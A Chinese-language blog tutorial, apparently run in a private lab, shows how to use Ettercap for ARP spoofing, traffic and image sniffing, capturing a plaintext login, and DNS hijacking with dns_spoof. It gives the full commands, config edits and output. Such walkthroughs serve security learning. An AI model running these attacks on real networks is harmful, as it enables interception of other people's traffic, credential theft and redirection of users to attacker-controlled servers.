 ```yaml
---
title: Ettercap 简易入门
date: 2019-07-20 00:03:58
tags:
  - Kali
  - 实践记录
  - DNS
  - 网络
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/0.jpg
---
```


关于 Ettercap 的有趣例子。

<!--more-->

## 安装与配置

安装很容易：

```shell
$ apt install ettercap-text-only
```

使用前需要修改配置，给予 Ettercap 足够的权限。配置文件位于 `/etc/ettercap/etter.conf`，找到：

```
[priv]
ec_uid = 65500
ec_gid = 65500
```

将两个值都修改为 0，表示给予 root 权限。

另外，如果想嗅探 https 包则需要根据配置文件的提示去除指定的注释。我这里使用的是 Linux 系统，防火墙为 iptables，所以我取消注释了 177 和 178 两行。

```
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

## ARP 欺骗

我们知道，ARP 请求包是广播发送的，然而 ARP 应答包则是单播发送的。因此通过 Ettercap，我们可以在收到同一网段内的其它主机广播的 ARP 请求后，向它们发送 ARP 应答包，使它们认为我们的主机就是网关。这样一来，任何发送至外网的请求都将经过我们的主机。

如果我们成功实施了 ARP 欺骗，作为一个伪网关，就可以截获同网段内所有发送至外网的流量。我们可以选择不再将这些数据包转发至外网，这将使得该网段内所有其它主机无法上网：

```shell
$ arpspoof -i eth0 -t 192.168.159.128 192.168.159.2
```

其中 `-i` 指定网卡接口，`-t` 指定要欺骗的目标主机，最后的 IP 地址是本网段内真正的网关地址。如何查看真正的网关地址呢？

简便的方法是直接查看当前连接的网络属性，里面会直接显示 `默认网关` 字段。另一种方法是 `traceroute 任意外网网址 `，这样第一跳的地址必定是网关地址。

```shell
$ traceroute baidu.com
traceroute to baidu.com (123.125.114.144), 30 hops max, 60 byte packets
 1  _gateway (192.168.159.2)  0.947 ms  0.819 ms  0.681 ms^C
```

结果：

![图 1](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/0.jpg)

![图 2](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/1.jpg)

或者，我们照常转发流量（这个操作由 Ettercap 自动完成），但是将数据包中的图片存储下来：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
$ driftnet -i eth0 -b -a -d pic
```

其中 `-T` 表示只使用命令行，`-q` 表示不显示具体数据包信息，`-M` 指定使用的模式，`///` 表示同网段下所有主机，`-b` 表示声音提醒，`-a` 保存图片，`-d` 指定保存目录。

由于 Ettercap 截获的是整个数据包，因此常常可以获取比图片更敏感的信息。举个例子，假设我们已经开始 ARP 欺骗：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
```

这时，同网段主机访问了一个 http 网站并进行登录。我们可以在命令行看到：

![图 3](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/2.jpg)

由于帐号和密码是明文传输的，我们可以轻易得到帐号 `10175101282` 和密码 `aaaaaa`。

## DNS 劫持

作为伪网关，我们当然也可以将一些域名解析到指定的 IP，实现 DNS 劫持。首先修改另一个配置文件 `/etc/ettercap/etter.dns`，在这里面可以输入域名匹配规则与解析规则，如:

```
*.edu.cn           A   192.168.159.135
```

可以看出，前面是一个类正则的域名匹配规则，然后中间指定 `A Record`，最后指定要解析到哪个 IP 地址上，这里我们使用了攻击者主机内网 IP。

保存后，我们在本机开一个服务器：

```shell
$ service apache2 start
```

然后开始 DNS 劫持：

```shell
$ ettercap -i eth0 -Tq -P dns_spoof /// ///
```

当受害者主机访问类似 [aaa.ecnu.edu.cn](#) 的域名时，将会看到我们的 Apache 服务器的默认页面，这样就完成了 DNS 劫持。命令行提示：

```
dns_spoof: A [aaa.ecnu.edu.cn] spoofed to [192.168.159.135]
```

结果：

![图 4](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/3.jpg)

## 小结

显然上述攻击都有一个共同的前提，那就是攻击者和受害者处于同一网段。由此不难发现，局域网内的安全是十分脆弱的，这是由局域网内主机互相访问的便利性所带来的代价，而如何防护这类攻击是需要进一步思考的问题。
